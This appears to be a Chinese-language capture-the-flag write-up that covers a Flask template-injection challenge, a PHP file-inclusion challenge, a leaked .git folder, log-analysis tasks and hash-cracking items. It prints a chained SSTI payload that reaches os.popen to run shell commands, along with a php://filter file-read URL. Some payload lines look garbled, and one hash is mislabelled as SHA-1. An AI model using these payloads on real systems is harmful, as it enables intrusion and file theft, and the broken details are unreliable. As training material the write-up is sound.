

# Web
## madlib
### 题目描述
```
I just created the first draft of my first flask project, a madlib generator that fills the given words into a madlib template! 

Try it out and let me know what you think! The character length limit should make this app pretty secure.
```
### 解题思路
> - 题目可以查看源码

```python
from flask import Flask, render_template_string, request, send_from_directory


app = Flask(__name__)

@app.route('/')
def index():
    return send_from_directory('html', 'index.html')

@app.route('/madlib', methods=['POST'])
def madlib():
    if len(request.json) == 5:
        verb = request.json.get('verb')
        noun = request.json.get('noun')
        adjective = request.json.get('adjective')
        person = request.json.get('person')
        place = request.json.get('place')
        params = [verb, noun, adjective, person, place]
        if any(len(i) > 21 for i in params):
            return 'your words must not be longer than 21 characters!', 403
        madlib = f'To find out what this is you must {verb} the internet then get to the {noun} system through the visual MAC hard drive and program the open-source but overriding the bus won\'t do anything so you need to parse the online SSD transmitter, then index the neural DHCP card {adjective}.{person} taught me this trick when we met in {place} allowing you to download the knowledge of what this is directly to your brain.'
        return render_template_string(madlib)
    return 'This madlib only takes five words', 403

@app.route('/source')
def show_source():
    return send_from_directory('/app/', 'app.py')

app.run('0.0.0.0', port=1337)
```
> - 发现危险函数 `render_template_string` 可以触发 ssti，先查看 config：`{{config}}`


> - 但同时发现限制条件每个变量传参的长度不能超过 21，注意到 `{adjective}.{person}`，可以利用这里来扩展输入的长度
> - Payload

```python


{{y(a=x
__class__.__init__)}}
{{config}}



{{y(a=x.a
__globals__['os'])}}
{{config.a}}



{{y(a=x.a    
popen}}
{config.a}



{{y('uname -a')
read()}}
{{config.a}}



{{y('cat flag.txt')
read()}}
{{config.a}}
```
## notrequired
### 题目描述
```
Hello I am cheemsloverboi33! I made a php website. Can you do a quick security check on it?
```

### 解题思路
> - 注意到 url：`http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html`，猜测存在伪协议文件读取：`http://ctf.bennetthackingcommunity.cf:8333/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`，成功读取到 index.php 的源码

```php
<?php

if(!isset($_GET["file"])){
    header("location: http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html");
    exit;
}

else{
    require($_GET['file']);
}

#note to myself: delete /bin/secrets.txt!
?>
```

> - 根据提示读取 `/bin/secrets.txt`，成功获得 Flag


## git commit -m "whatever"
### 题目描述
```
Visit the website
```

### 解题思路
> - 题目给出的字符串尝试解码，但是没能解出来，扫描一下路径发现存在 `.git` 泄露


> - 用 `GitHack` 恢复一下 git 工程文件



> - 查看 index.php 的源代码发现题目一开始给出的字符串的用法了，根据私钥来进行解密即可拿到 FLag

```php
<?php

/**
 * Simple sodium crypto class for PHP >= 7.2
 * @author MRK
 */
class crypto {

    /**
     * 
     * @return type
     */
    static public function create_encryption_key() {
        return base64_encode(sodium_crypto_secretbox_keygen());
    }

    /**
     * Encrypt a message
     * 
     * @param string $message - message to encrypt
     * @param string $key - encryption key created using create_encryption_key()
     * @return string
     */
    static function encrypt($message, $key) {
        $key_decoded = base64_decode($key);
        $nonce = random_bytes(
                SODIUM_CRYPTO_SECRETBOX_NONCEBYTES
        );

        $cipher = base64_encode(
                $nonce .
                sodium_crypto_secretbox(
                        $message, $nonce, $key_decoded
                )
        );
        sodium_memzero($message);
        sodium_memzero($key_decoded);
        return $cipher;
    }

    /**
     * Decrypt a message
     * @param string $encrypted - message encrypted with safeEncrypt()
     * @param string $key - key used for encryption
     * @return string
     */
    static function decrypt($encrypted, $key) {
        $decoded = base64_decode($encrypted);
        $key_decoded = base64_decode($key);
        if ($decoded === false) {
            throw new Exception('Decryption error : the encoding failed');
        }
        if (mb_strlen($decoded, '8bit') < (SODIUM_CRYPTO_SECRETBOX_NONCEBYTES + SODIUM_CRYPTO_SECRETBOX_MACBYTES)) {
            throw new Exception('Decryption error : the message was truncated');
        }
        $nonce = mb_substr($decoded, 0, SODIUM_CRYPTO_SECRETBOX_NONCEBYTES, '8bit');
        $ciphertext = mb_substr($decoded, SODIUM_CRYPTO_SECRETBOX_NONCEBYTES, null, '8bit');

        $plain = sodium_crypto_secretbox_open(
                $ciphertext, $nonce, $key_decoded
        );
        if ($plain === false) {
            throw new Exception('Decryption error : the message was tampered with in transit');
        }
        sodium_memzero($ciphertext);
        sodium_memzero($key_decoded);
        return $plain;
    }

}

$privatekey = "mRHpcEckKATdwDC/CwpRinDTiAYrn9lzWpTo277omKs=";

$flag = file_get_contents('../flag.txt');

$enc = crypto::encrypt($flag, $privatekey);

echo $enc;

?>

<html>
    <br>
    Only if you could see the source code.
</html>
```

# Log Analysis
## Part 1 - Ingress
### 题目描述
```
Our website was hacked recently and the attackers completely ransomwared our server!

We've recovered it now, but we don't want it to happen again. 

Here are the logs from before the attack, can you find out what happened?
```

### 解题思路
> - 命令查找发现可疑 url 关键词，搜索该关键词发现 base64 字符串，解密获得 Flag

```bash
awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
```


## Part 2 - Investigation
### 题目描述
```
Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.

We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?

Please submit the attackers IP as the flag as follow, DO{x.x.x.x}
```

### 解题思路
> - 猜测存在攻击越级目录路径，进行命令查找

```bash
grep "\.\." more.log | (head -3; tail -1)
```


## Part 3 - Backup Policy
### 题目描述
```
So it looks like the attacker scanned our site for old backups right?  Did he get one?
```

### 解题思路
> - 由于是备份文件，搜索 `backup` 关键词，进行命令查找

```bash
grep backup more.log
```


# Hash Cracking
## Hash 1
### 题目描述
```
The hash to crack is 54a09c22fc0d1af44865e411ff6e8d50
```
### 解题思路
> - 直接在线 MD5 解密即可


## Hash 2
### 题目描述
```
The hash to crack is 52ed4b109a2662fdf15edfd95632667869fc5802
```
### 解题思路
> - 直接在线 SHA-1 解密即可


## Hash 3
### 题目描述
```
The hash to crack is 550b57fc03f0a800fab603cb8eb4e29fbd5c76655d7ab995b1fe9c6ddf963a3d2627ebd79e067022f792bb2490a260c051aecbc4a7aedb3ec5dbf9439cd66f81
```
### 解题思路
> - 直接在线 SHA-512 解密即可


## Hash 4
### 题目描述
```
The hash to crack is 451716a045ca5ec7f25e191ab5244c61aaeeb008c4753a2065e276f1baba4723
```
### 解题思路
> - 直接在线 SHA-1 解密即可

